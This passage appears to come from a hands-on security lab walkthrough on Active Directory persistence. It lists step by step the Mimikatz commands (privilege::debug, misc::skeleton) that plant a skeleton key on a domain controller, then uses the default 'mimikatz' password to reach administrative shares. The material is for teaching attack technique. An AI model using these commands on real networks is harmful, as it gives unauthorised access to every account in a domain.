 ![https://i.imgur.com/yNI0zEb.png](https://i.imgur.com/yNI0zEb.png)

- Preparing Mimikatz
    
    1.) `cd Downloads && mimikatz.exe` - Navigate to the directory mimikatz is in and run mimikatz
    
    2.) `privilege::debug` - This should be a standard for running mimikatz as mimikatz needs local administrator access
    
    ![https://i.imgur.com/ZPOMDMo.png](https://i.imgur.com/ZPOMDMo.png)
    
- Installing the Skeleton Key w/ mimikatz
    
    1.) `misc::skeleton` - Yes! that's it but don't underestimate this small command it is very powerful
    
    ![https://i.imgur.com/wI802gw.png](https://i.imgur.com/wI802gw.png)
    
- Accessing the forest
    
    The default credentials will be: "*mimikatz*"
    
    example: `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password
    
    example: `dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1
    
    The skeleton key will not persist by itself because it runs in the memory, it can be scripted or persisted using other tools and techniques however that is out of scope for this room.